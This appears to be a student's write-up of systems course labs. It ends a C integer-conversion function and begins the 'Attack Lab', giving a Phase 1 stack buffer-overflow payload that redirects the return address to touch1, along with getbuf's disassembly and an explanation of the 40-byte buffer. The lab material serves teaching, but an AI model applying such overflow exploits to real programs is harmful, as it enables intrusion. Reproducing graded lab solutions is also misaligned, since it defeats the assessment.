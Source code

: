 ```
        return 0x80000000u; 
    }

    if (power_of_2 < -31){ 
        return 0; 
    }

    if (power_of_2 > 0){ 
        number = value << power_of_2; 
    }

    if (power_of_2 < 0){ 
        number = value >> -power_of_2; 
    }
    
    if (is_negative){ 
        return number > 0x80000000u ? 0x80000000u : -number; 
    }
    else{ 
        return number > 0x7fffffff ? 0x80000000u : number; 
    }
}
```

[Back to Top](./labs#highlighted-labs-for-computer-systems)


# Attack Lab

## Phase 1
### Solution
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
C0 17 40 00 00 00 00 00
```
### Discussion
The goal of phase 1 is to overflow the buffer in such a way that we insert some code on the stack that will end up calling the function touch1.

We first have to see how exactly our input is taken in in order to figure out how to overflow the buffer. getbuf is the function in charge of taking in the input (calling gets).

Disassemble of getbuf:
```
00000000004017a8 <getbuf>:
    4017a8:	48 83 ec 28          	sub    $0x28,%rsp
    4017ac:	48 89 e7             	mov    %rsp,%rdi
    4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
    4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
    4017b9:	48 83 c4 28          	add    $0x28,%rsp
    4017bd:	c3                   	retq   
    4017be:	90                   	nop
    4017bf:	90                   	nop
```
From the first instruction of getbuf, we can see that space is created for 0x28 bytes on the stack (%rsp). In decimal terms, that's 40 bytes of space reserved for input. If we provide input that's longer than 40 bytes, we will overflow the buffer.
